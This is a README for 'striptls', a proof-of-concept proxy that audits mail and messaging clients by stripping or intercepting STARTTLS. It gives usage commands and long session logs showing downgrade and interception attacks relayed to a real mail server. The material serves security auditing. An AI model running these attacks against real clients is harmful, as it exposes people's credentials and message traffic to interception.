 striptls - auditing proxy
=========================

poc implementation of STARTTLS stripping attacks

-  SMTP
-  SMTP.StripFromCapabilities - server response capability patch
-  SMTP.StripWithInvalidResponseCode - client STARTTLS stripping,
   invalid response code
-  SMTP.UntrustedIntercept - STARTTLS interception (client and server
   talking ssl) (requires server.pem in pwd)
-  SMTP.StripWithTemporaryError
-  SMTP.StripWithError
-  POP3 (untested)
-  POP3.StripFromCapabilities
-  POP3.StripWithError
-  POP3.UntrustedIntercept
-  IMAP (untested)
-  IMAP.StripFromCapabilities
-  IMAP.StripWithError
-  IMAP.UntrustedIntercept
-  FTP (untested)
-  FTP.StripFromCapabilities
-  FTP.StripWithError
-  FTP.UntrustedIntercept
-  NNTP (untested)
-  NNTP.StripFromCapabilities
-  NNTP.StripWithError
-  NNTP.UntrustedIntercept
-  XMPP (untested)
-  XMPP.StripFromCapabilities

Usage
-----

::

    #> python -m striptls --help    # if installed from pip/setup.py
    #> python striptls --help       # from source / root folder
    Usage: striptls [options]

           example: striptls --listen 0.0.0.0:25 --remote mail.server.tld:25


    Options:
      -h, --help            show this help message and exit
      -v, --verbose         make lots of noise [default]
      -l LISTEN, --listen=LISTEN
                            listen ip:port [default: 0.0.0.0:<remote_port>]
      -r REMOTE, --remote=REMOTE
                            remote target ip:port to forward sessions to
      -k KEY, --key=KEY     SSL Certificate and Private key file to use, PEM
                            format assumed [default: server.pem]
      -x VECTORS, --vectors=VECTORS
                            Comma separated list of vectors. Use 'ALL' (default)
                            to select all vectors. Available vectors:
                            FTP.StripFromCapabilities, FTP.StripWithError,
                            FTP.UntrustedIntercept, IMAP.StripFromCapabilities,
                            IMAP.StripWithError, IMAP.UntrustedIntercept,
                            NNTP.StripFromCapabilities, NNTP.StripWithError,
                            NNTP.UntrustedIntercept, POP3.StripWithError,
                            POP3.UntrustedIntercept, SMTP.StripFromCapabilities,
                            SMTP.StripWithError,
                            SMTP.StripWithInvalidResponseCode,
                            SMTP.StripWithTemporaryError, SMTP.UntrustedIntercept,
                            XMPP.StripFromCapabilities [default: ALL]

Install (optional)
------------------

from pip

::

    #> pip install striptls

from source

::

    #> setup.py install

Examples
--------

::

                      inbound                    outbound
    [inbound_peer]<------------->[listen:proxy]<------------->[outbound_peer/target]
      smtp-client                   striptls                    remote/target

local ``smtp-client`` -> ``localhost:8825`` (proxy) ->
``mail.gmx.net:25``

Audit Mode
~~~~~~~~~~

iterates all protocol specific cases on a per client basis and keeps
track of clients violating the starttls protocol. Ctrl+C to abort audit
and print results.

::

    #> python striptls --listen localhost:8825 --remote=mail.gmx.net:25
    2016-02-02 22:11:56,275 - INFO     - <Proxy 0xffcf6d0cL listen=('localhost', 8825) target=('mail.gmx.net', 25)> ready.
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:21   , proto:     FTP): <class striptls.StripFromCapabilities at 0xffd4632c>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:21   , proto:     FTP): <class striptls.StripWithError at 0xffd4635c>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:21   , proto:     FTP): <class striptls.UntrustedIntercept at 0xffd4638c>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:143  , proto:    IMAP): <class striptls.StripFromCapabilities at 0xffd4626c>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:143  , proto:    IMAP): <class striptls.StripWithError at 0xffd4629c>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:143  , proto:    IMAP): <class striptls.UntrustedIntercept at 0xffd462cc>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:119  , proto:    NNTP): <class striptls.StripFromCapabilities at 0xffd463ec>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:119  , proto:    NNTP): <class striptls.StripWithError at 0xffd4641c>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:119  , proto:    NNTP): <class striptls.UntrustedIntercept at 0xffd4644c>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:110  , proto:    POP3): <class striptls.StripWithError at 0xffd461dc>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:110  , proto:    POP3): <class striptls.UntrustedIntercept at 0xffd4620c>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:25   , proto:    SMTP): <class striptls.StripFromCapabilities at 0xffd316bc>
    2016-02-02 22:11:56,275 - DEBUG    - * added test (port:25   , proto:    SMTP): <class striptls.StripWithError at 0xffd4614c>
    2016-02-02 22:11:56,276 - DEBUG    - * added test (port:25   , proto:    SMTP): <class striptls.StripWithInvalidResponseCode at 0xffd3138c>
    2016-02-02 22:11:56,276 - DEBUG    - * added test (port:25   , proto:    SMTP): <class striptls.StripWithTemporaryError at 0xffd4611c>
    2016-02-02 22:11:56,276 - DEBUG    - * added test (port:25   , proto:    SMTP): <class striptls.UntrustedIntercept at 0xffd4617c>
    2016-02-02 22:11:56,276 - DEBUG    - * added test (port:5222 , proto:    XMPP): <class striptls.StripFromCapabilities at 0xffd464ac>
    2016-02-02 22:11:56,276 - INFO     - <RewriteDispatcher vectors={5222: set([<class striptls.StripFromCapabilities at 0xffd464ac>]), 110: set([<class striptls.UntrustedIntercept at 0xffd4620c>, <class striptls.StripWithError at 0xffd461dc>]), 143: set([<class striptls.StripWithError at 0xffd4629c>, <class striptls.UntrustedIntercept at 0xffd462cc>, <class striptls.StripFromCapabilities at 0xffd4626c>]), 21: set([<class striptls.UntrustedIntercept at 0xffd4638c>, <class striptls.StripFromCapabilities at 0xffd4632c>, <class striptls.StripWithError at 0xffd4635c>]), 119: set([<class striptls.StripWithError at 0xffd4641c>, <class striptls.UntrustedIntercept at 0xffd4644c>, <class striptls.StripFromCapabilities at 0xffd463ec>]), 25: set([<class striptls.StripWithInvalidResponseCode at 0xffd3138c>, <class striptls.StripWithTemporaryError at 0xffd4611c>, <class striptls.StripFromCapabilities at 0xffd316bc>, <class striptls.StripWithError at 0xffd4614c>, <class striptls.UntrustedIntercept at 0xffd4617c>])}>
    2016-02-02 22:12:08,477 - DEBUG    - <ProtocolDetect 0xffcf6eccL protocol_id=PROTO_SMTP len_history=0> - protocol detected (target port)
    2016-02-02 22:12:08,530 - INFO     - <Session 0xffcf6e4cL> client ('127.0.0.1', 28902) has connected
    2016-02-02 22:12:08,530 - INFO     - <Session 0xffcf6e4cL> connecting to target ('mail.gmx.net', 25)
    2016-02-02 22:12:08,805 - DEBUG    - <Session 0xffcf6e4cL> [client] <= [server]          '220 gmx.com (mrgmx001) Nemesis ESMTP Service ready\r\n'
    2016-02-02 22:12:08,805 - DEBUG    - <RewriteDispatcher  - changed mangle: striptls.StripWithInvalidResponseCode new: True>
    2016-02-02 22:12:09,759 - DEBUG    - <Session 0xffcf6e4cL> [client] => [server]          'ehlo [192.168.139.1]\r\n'
    2016-02-02 22:12:09,850 - DEBUG    - <Session 0xffcf6e4cL> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [109.126.64.2]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
    2016-02-02 22:12:09,851 - DEBUG    - <Session 0xffcf6e4cL> [client] <= [server][mangled] '250-gmx.com Hello [192.168.139.1] [109.126.64.2]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250-STARTTLS\r\n250 STARTTLS\r\n'
    2016-02-02 22:12:09,867 - DEBUG    - <Session 0xffcf6e4cL> [client] => [server]          'STARTTLS\r\n'
    2016-02-02 22:12:09,867 - DEBUG    - <Session 0xffcf6e4cL> [client] <= [server][mangled] '200 STRIPTLS\r\n'
    2016-02-02 22:12:09,867 - DEBUG    - <Session 0xffcf6e4cL> [client] => [server][mangled] None
    2016-02-02 22:12:09,883 - DEBUG    - <Session 0xffcf6e4cL> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
    2016-02-02 22:12:09,983 - DEBUG    - <Session 0xffcf6e4cL> [client] <= [server]          '530 Authentication required\r\n'
    2016-02-02 22:12:09,992 - DEBUG    - <Session 0xffcf6e4cL> [client] => [server]          'rset\r\n'
    2016-02-02 22:12:10,100 - DEBUG    - <Session 0xffcf6e4cL> [client] <= [server]          '250 OK\r\n'
    2016-02-02 22:12:10,116 - WARNING  - <Session 0xffcf6e4cL> terminated.
    2016-02-02 22:12:13,056 - DEBUG    - <ProtocolDetect 0xffd0920cL protocol_id=PROTO_SMTP len_history=0> - protocol detected (target port)
    2016-02-02 22:12:13,056 - INFO     - <Session 0xffd0918cL> client ('127.0.0.1', 28905) has connected
    2016-02-02 22:12:13,057 - INFO     - <Session 0xffd0918cL> connecting to target ('mail.gmx.net', 25)
    2016-02-02 22:12:13,241 - DEBUG    - <Session 0xffd0918cL> [client] <= [server]          '220 gmx.com (mrgmx003) Nemesis ESMTP Service ready\r\n'
    2016-02-02 22:12:13,241 - DEBUG    - <RewriteDispatcher  - changed mangle: striptls.StripWithTemporaryError new: True>
    2016-02-02 22:12:14,197 - DEBUG    - <Session 0xffd0918cL> [client] => [server]          'ehlo [192.168.139.1]\r\n'
    2016-02-02 22:12:14,289 - DEBUG    - <Session 0xffd0918cL> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [109.126.64.2]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
    2016-02-02 22:12:14,304 - DEBUG    - <Session 0xffd0918cL> [client] => [server]          'STARTTLS\r\n'
    2016-02-02 22:12:14,305 - DEBUG    - <Session 0xffd0918cL> [client] <= [server][mangled] '454 TLS not available due to temporary reason\r\n'
    2016-02-02 22:12:14,305 - DEBUG    - <Session 0xffd0918cL> [client] => [server][mangled] None
    2016-02-02 22:12:14,320 - DEBUG    - <Session 0xffd0918cL> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
    2016-02-02 22:12:14,411 - DEBUG    - <Session 0xffd0918cL> [client] <= [server]          '530 Authentication required\r\n'
    2016-02-02 22:12:14,415 - DEBUG    - <Session 0xffd0918cL> [client] => [server]          'rset\r\n'
    2016-02-02 22:12:14,520 - DEBUG    - <Session 0xffd0918cL> [client] <= [server]          '250 OK\r\n'
    2016-02-02 22:12:14,535 - WARNING  - <Session 0xffd0918cL> terminated.
    2016-02-02 22:12:16,649 - DEBUG    - <ProtocolDetect 0xffd092ecL protocol_id=PROTO_SMTP len_history=0> - protocol detected (target port)
    2016-02-02 22:12:16,650 - INFO     - <Session 0xffd0926cL> client ('127.0.0.1', 28908) has connected
    2016-02-02 22:12:16,650 - INFO     - <Session 0xffd0926cL> connecting to target ('mail.gmx.net', 25)
    2016-02-02 22:12:16,820 - DEBUG    - <Session 0xffd0926cL> [client] <= [server]          '220 gmx.com (mrgmx003) Nemesis ESMTP Service ready\r\n'
    2016-02-02 22:12:16,820 - DEBUG    - <RewriteDispatcher  - changed mangle: striptls.StripFromCapabilities new: True>
    2016-02-02 22:12:17,760 - DEBUG    - <Session 0xffd0926cL> [client] => [server]          'ehlo [192.168.139.1]\r\n'
    2016-02-02 22:12:17,849 - DEBUG    - <Session 0xffd0926cL> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [109.126.64.2]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
    2016-02-02 22:12:17,849 - DEBUG    - <Session 0xffd0926cL> [client] <= [server][mangled] '250-gmx.com Hello [192.168.139.1] [109.126.64.2]\r\n250-SIZE 31457280\r\n250 AUTH LOGIN PLAIN\r\n'
    2016-02-02 22:12:17,871 - WARNING  - <Session 0xffd0926cL> terminated.
    2016-02-02 22:12:20,071 - DEBUG    - <ProtocolDetect 0xffd093ccL protocol_id=PROTO_SMTP len_history=0> - protocol detected (target port)
    2016-02-02 22:12:20,072 - INFO     - <Session 0xffd0934cL> client ('127.0.0.1', 28911) has connected
    2016-02-02 22:12:20,072 - INFO     - <Session 0xffd0934cL> connecting to target ('mail.gmx.net', 25)
    2016-02-02 22:12:20,239 - DEBUG    - <Session 0xffd0934cL> [client] <= [server]          '220 gmx.com (mrgmx002) Nemesis ESMTP Service ready\r\n'
    2016-02-02 22:12:20,240 - DEBUG    - <RewriteDispatcher  - changed mangle: striptls.StripWithError new: True>
    2016-02-02 22:12:21,181 - DEBUG    - <Session 0xffd0934cL> [client] => [server]          'ehlo [192.168.139.1]\r\n'
    2016-02-02 22:12:21,269 - DEBUG    - <Session 0xffd0934cL> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [109.126.64.2]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
    2016-02-02 22:12:21,280 - DEBUG    - <Session 0xffd0934cL> [client] => [server]          'STARTTLS\r\n'
    2016-02-02 22:12:21,281 - DEBUG    - <Session 0xffd0934cL> [client] <= [server][mangled] '501 Syntax error\r\n'
    2016-02-02 22:12:21,281 - DEBUG    - <Session 0xffd0934cL> [client] => [server][mangled] None
    2016-02-02 22:12:21,289 - DEBUG    - <Session 0xffd0934cL> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
    2016-02-02 22:12:21,381 - DEBUG    - <Session 0xffd0934cL> [client] <= [server]          '530 Authentication required\r\n'
    2016-02-02 22:12:21,386 - DEBUG    - <Session 0xffd0934cL> [client] => [server]          'rset\r\n'
    2016-02-02 22:12:21,469 - DEBUG    - <Session 0xffd0934cL> [client] <= [server]          '250 OK\r\n'
    2016-02-02 22:12:21,485 - WARNING  - <Session 0xffd0934cL> terminated.
    2016-02-02 22:12:23,665 - WARNING  - Ctrl C - Stopping server
    2016-02-02 22:12:23,665 - INFO     -  -- audit results --
    2016-02-02 22:12:23,666 - INFO     - [*] client: 127.0.0.1
    2016-02-02 22:12:23,666 - INFO     -     [Vulnerable!] <class striptls.StripWithInvalidResponseCode at 0xffd3138c>
    2016-02-02 22:12:23,666 - INFO     -     [Vulnerable!] <class striptls.StripWithTemporaryError at 0xffd4611c>
    2016-02-02 22:12:23,666 - INFO     -     [           ] <class striptls.StripFromCapabilities at 0xffd316bc>
    2016-02-02 22:12:23,666 - INFO     -     [Vulnerable!] <class striptls.StripWithError at 0xffd4614c>

Strip STARTTLS from server capabilities
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

::

    #> python striptls --listen=localhost:8825 --remote=mail.gmx.net:25 --test=SMTP.StripFromCapabilities
    2016-01-31 15:44:35,000 - INFO     - <Proxy 0x1fe6e70 listen=('localhost', 8825) target=('mail.gmx.net', 25)> ready.
    2016-01-31 15:44:35,000 - INFO     - <RewriteDispatcher attacks={25: set([<class __main__.StripFromCapabilities at 0x01FE77D8>])}>
    2016-01-31 15:44:37,030 - DEBUG    - <ProtocolDetect 0x1fe6f90 is_protocol=PROTO_SMTP len_history=0> - protocol detected (target port)
    2016-01-31 15:44:37,032 - INFO     - <Session 0x1fe6f10> client ('127.0.0.1', 20070) has connected
    2016-01-31 15:44:37,032 - INFO     - <Session 0x1fe6f10> connecting to target ('mail.gmx.net', 25)
    2016-01-31 15:44:39,051 - DEBUG    - <Session 0x1fe6f10> [client] <= [server]          '220 gmx.com (mrgmx003) Nemesis ESMTP Service ready\r\n'
    2016-01-31 15:44:40,335 - DEBUG    - <Session 0x1fe6f10> [client] => [server]          'ehlo [192.168.139.1]\r\n'
    2016-01-31 15:44:40,746 - DEBUG    - <Session 0x1fe6f10> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [109.126.64.18]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
    2016-01-31 15:44:40,746 - DEBUG    - <Session 0x1fe6f10> [client] <= [server][mangled] '250-gmx.com Hello [192.168.139.1] [109.126.64.18]\r\n250-SIZE 31457280\r\n250 AUTH LOGIN PLAIN\r\n'
    2016-01-31 15:44:40,746 - DEBUG    - <Session 0x1fe6f10> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
    2016-01-31 15:44:41,292 - DEBUG    - <Session 0x1fe6f10> [client] <= [server]          '530 Authentication required\r\n'
    2016-01-31 15:44:41,292 - DEBUG    - <Session 0x1fe6f10> [client] => [server]          'rset\r\n'
    2016-01-31 15:44:41,605 - DEBUG    - <Session 0x1fe6f10> [client] <= [server]          '250 OK\r\n'
    2016-01-31 15:44:41,612 - WARNING  - <Session 0x1fe6f10> terminated.

Invalid STARTTLS response code
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

::

    #> python striptls --listen=localhost:8825 --remote=mail.gmx.net:25 --test=SMTP.StripWithInvalidResponseCode
    2016-01-31 15:42:40,325 - INFO     - <Proxy 0x1fefe70 listen=('localhost', 8825) target=('mail.gmx.net', 25)> ready.
    2016-01-31 15:42:40,325 - INFO     - <RewriteDispatcher attacks={25: set([<class __main__.StripWithInvalidResponseCode at 0x02010730>])}>
    2016-01-31 15:43:19,755 - DEBUG    - <ProtocolDetect 0x1feff90 is_protocol=PROTO_SMTP len_history=0> - protocol detected (target port)
    2016-01-31 15:43:19,756 - INFO     - <Session 0x1feff10> client ('127.0.0.1', 20061) has connected
    2016-01-31 15:43:19,756 - INFO     - <Session 0x1feff10> connecting to target ('mail.gmx.net', 25)
    2016-01-31 15:43:21,473 - DEBUG    - <Session 0x1feff10> [client] <= [server]          '220 gmx.com (mrgmx003) Nemesis ESMTP Service ready\r\n'
    2016-01-31 15:43:22,395 - DEBUG    - <Session 0x1feff10> [client] => [server]          'ehlo [192.168.139.1]\r\n'
    2016-01-31 15:43:23,019 - DEBUG    - <Session 0x1feff10> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [109.126.64.18]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
    2016-01-31 15:43:23,019 - DEBUG    - <Session 0x1feff10> [client] <= [server][mangled] '250-gmx.com Hello [192.168.139.1] [109.126.64.18]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250-STARTTLS\r\n250 STARTTLS\r\n'
    2016-01-31 15:43:23,035 - DEBUG    - <Session 0x1feff10> [client] => [server]          'STARTTLS\r\n'
    2016-01-31 15:43:23,035 - DEBUG    - <Session 0x1feff10> [client] <= [server][mangled] '200 STRIPTLS\r\n'
    2016-01-31 15:43:23,035 - DEBUG    - <Session 0x1feff10> [client] => [server][mangled] None
    2016-01-31 15:43:23,035 - DEBUG    - <Session 0x1feff10> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
    2016-01-31 15:43:23,160 - DEBUG    - <Session 0x1feff10> [client] <= [server]          '530 Authentication required\r\n'
    2016-01-31 15:43:23,160 - DEBUG    - <Session 0x1feff10> [client] => [server]          'rset\r\n'
    2016-01-31 15:43:23,269 - DEBUG    - <Session 0x1feff10> [client] <= [server]          '250 OK\r\n'
    2016-01-31 15:43:23,285 - WARNING  - <Session 0x1feff10> terminated.

Untrusted SSL Intercept (for clients not checking server cert trust)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

::

    #> python striptls --listen=localhost:8825 --remote=mail.gmx.net:25 --test=SMTP.UntrustedIntercept
    2016-01-31 15:59:02,417 - INFO     - <Proxy 0x1f468f0 listen=('localhost', 8825) target=('mail.gmx.net', 25)> ready.
    2016-01-31 15:59:02,417 - INFO     - <RewriteDispatcher attacks={25: set([<class __main__.UntrustedIntercept at 0x01F45298>])}>
    2016-01-31 15:59:06,292 - DEBUG    - <ProtocolDetect 0x1f46a10 protocol_id=PROTO_SMTP len_history=0> - protocol detected (target port)
    2016-01-31 15:59:06,293 - INFO     - <Session 0x1f46990> client ('127.0.0.1', 20238) has connected
    2016-01-31 15:59:06,293 - INFO     - <Session 0x1f46990> connecting to target ('mail.gmx.net', 25)
    2016-01-31 15:59:06,561 - DEBUG    - <Session 0x1f46990> [client] <= [server]          '220 gmx.com (mrgmx002) Nemesis ESMTP Service ready\r\n'
    2016-01-31 15:59:07,500 - DEBUG    - <Session 0x1f46990> [client] => [server]          'ehlo [192.168.139.1]\r\n'
    2016-01-31 15:59:07,565 - DEBUG    - <Session 0x1f46990> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [109.126.64.18]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
    2016-01-31 15:59:07,581 - DEBUG    - <Session 0x1f46990> [client] => [server]          'STARTTLS\r\n'
    2016-01-31 15:59:07,581 - DEBUG    - <Session 0x1f46990> [client] <= [server][mangled] '220 Go ahead\r\n'
    2016-01-31 15:59:07,832 - DEBUG    - <Session 0x1f46990> [client] <= [server][mangled] waiting for inbound SSL Handshake
    2016-01-31 15:59:07,832 - DEBUG    - <Session 0x1f46990> [client] => [server]          'STARTTLS\r\n'
    2016-01-31 15:59:07,926 - DEBUG    - <Session 0x1f46990> [client] => [server][mangled] performing outbound SSL handshake
    2016-01-31 15:59:08,219 - DEBUG    - <Session 0x1f46990> [client] => [server][mangled] None
    2016-01-31 15:59:08,219 - DEBUG    - <Session 0x1f46990> [client] => [server]          'ehlo [192.168.139.1]\r\n'
    2016-01-31 15:59:08,312 - DEBUG    - <Session 0x1f46990> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [109.126.64.18]\r\n250-SIZE 69920427\r\n250 AUTH LOGIN PLAIN\r\n'
    2016-01-31 15:59:08,312 - DEBUG    - <Session 0x1f46990> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
    2016-01-31 15:59:08,407 - DEBUG    - <Session 0x1f46990> [client] <= [server]          '530 Authentication required\r\n'
    2016-01-31 15:59:08,407 - DEBUG    - <Session 0x1f46990> [client] => [server]          'rset\r\n'
    2016-01-31 15:59:08,469 - DEBUG    - <Session 0x1f46990> [client] <= [server]          '250 OK\r\n'
    2016-01-31 15:59:08,484 - WARNING  - <Session 0x1f46990> terminated.

